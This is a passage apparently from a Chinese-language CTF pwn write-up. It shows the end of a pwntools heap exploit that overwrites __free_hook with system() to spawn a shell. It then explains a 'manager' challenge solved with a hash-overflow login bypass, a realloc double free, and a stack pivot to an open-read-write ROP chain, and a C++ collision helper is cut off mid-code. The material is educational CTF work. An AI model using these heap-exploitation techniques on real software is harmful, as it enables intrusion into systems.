 ```python
system_addr = libcbase + 0x52fd0
sh.recvuntil('string: ')
sh.sendline(p64(0xdeadbeef))

add(9, 0x50, 'a\n')
edit(9, 0, '')
edit(9, 0x50, p64(free_hook))

sh.recvuntil('Input your choice:\n')
sh.sendline('666')
sh.recvuntil('string: ')
sh.sendline(p64(0xdeadbeef))

sh.recvuntil('Input your choice:\n')
sh.sendline('666')
sh.recvuntil('string: ')
sh.sendline(p64(system_addr))

add(10, 0x20, '/bin/sh\x00')
remove(10)

#gdb.attach(sh)

sh.interactive()
```

### manager
先利用Hash的溢出和爆破来Login
这里Hash采用的是base进制, base取了37, 且是unsinged long long 自然溢出.  
![](https://i.loli.net/2020/09/17/QfkeKPX7syrVg5i.png)

利用realloc(ptr,0) == free(ptr)的特点 进行doublefree 利用，由于题目开启了seccomp，禁用了execve，并且禁用了free_hook，因此选择泄露environ，并且用栈迁移到堆区写好的rop链上做ORW获取flag.

```cpp
#include<bits/stdc++.h>
using namespace std;
typedef unsigned long long ull; 
const int Len = 10000;
int a[500001];
char s[100005];
ull Ans0; 

bool Cmp(int x) {
     bool flag = true;
     for (int i = 0; i < Len; ++i)
          if (s[i] != s[x + i]) {
               flag = false;
               break;
          }
     if (flag) return false;
     unsigned long long Ans = 0;
     for (int i = 0; i < Len; ++i)
          Ans = Ans * 37 + s[x + i];
     return Ans == Ans0;
}

int main()
{
     int len=1;
     a[1]=1;
     int i;
     while(len<=100000)
```